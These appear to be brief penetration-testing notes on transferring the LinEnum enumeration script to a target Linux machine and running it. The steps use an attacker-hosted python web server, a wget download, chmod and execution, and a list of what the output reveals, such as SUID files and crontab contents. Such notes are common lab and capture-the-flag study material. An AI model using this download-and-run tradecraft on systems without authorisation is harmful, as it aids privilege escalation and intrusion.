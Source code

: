 					Option 1(easiest)
-- Attacker:
	-- python3 -m http.server 8000			starts webserver for listening

-- Target:
	-- wget ip:8000/documents/LinEnum.sh	download file on target
	-- chmod +x LinEnum.sh 					makes file executable
	-- ./LinEnum.sh							runs file


					Option 2(less privileges)
-- Attacker:
	--Copy LinEnum code to Target			(.sh Extension)
	--chmod +x LinEnum.sh				   makes file executable
	--/LinEnum.sh								runs file


					LineEnum Output
-- kernal information
-- read/write files
-- suid files
-- crontab contents
